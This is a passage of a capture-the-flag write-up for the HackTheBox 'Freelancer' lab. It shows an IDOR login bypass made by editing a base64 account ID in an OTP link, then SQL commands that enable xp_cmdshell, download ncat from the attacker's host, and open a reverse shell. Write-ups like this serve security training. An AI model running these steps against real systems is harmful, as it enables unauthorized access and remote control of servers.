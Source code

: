 ![profile page](/images/HTB-Freelancer/profile_page.png)

When we look closely at the link generated it seems to be containing a base64 string `MTAwMTA=` which returns `10010` when decoded. Since the qrcode allows us to login without any credentials we can assume that this number is an account ID and the following string is a token value. 

We will test for a potential  Insecure Direct Object Reference (IDOR) vulnerability. If the url is still valid after modifying the ID we might be able to access an admin account, they usually have a small ID number such as 1 or 2.

For example: If our QR-Code link is `http://freelancer.htb/accounts/login/otp/MTAwMTA=/d134f9ff8e33c6bdcefc73a7597e4552/` we will use `http://freelancer.htb/accounts/login/otp/Mgo=/d134f9ff8e33c6bdcefc73a7597e4552/`.

It turns out that with an ID number of 2 we can access an admin account. We just need to replace `MTAwMTA=` with `Mgo=` (base64 string for `2`).

![admin account](/images/HTB-Freelancer/admin_account.png)

Back to the enumeration, we discover an `admin` page which we are able to access.

![gobuster command results](/images/HTB-Freelancer/gobuster_findings.png)

![Freelancer admin dashboard](/images/HTB-Freelancer/freelancer_admindb.png)

## Initial Foothold

We have access to a SQL terminal under `Development Tools`. We can use it to execute some queries in order to get a reverse shell.

> We get the `netcat` binary for Windows [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows/x86), set up a Python web server to drop it on the target and gain our reverse shell by executing it.

```SQL
EXECUTE AS LOGIN = 'sa';
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell "powershell.exe wget http://YOUR_IP/ncat.exe -OutFile C:\temp\nc.exe"
EXECUTE xp_cmdshell "powershell.exe C:\temp\nc.exe YOUR_IP PORT_NUMBER -e powershell"
```

![SQL reverse shell](/images/HTB-Freelancer/sql_revshell.png)

We now have a shell as `sql_svc`.

![shell as sql_svc](/images/HTB-Freelancer/foothold.png)

We find a lot of users on the target.

![users list](/images/HTB-Freelancer/users_list.png)
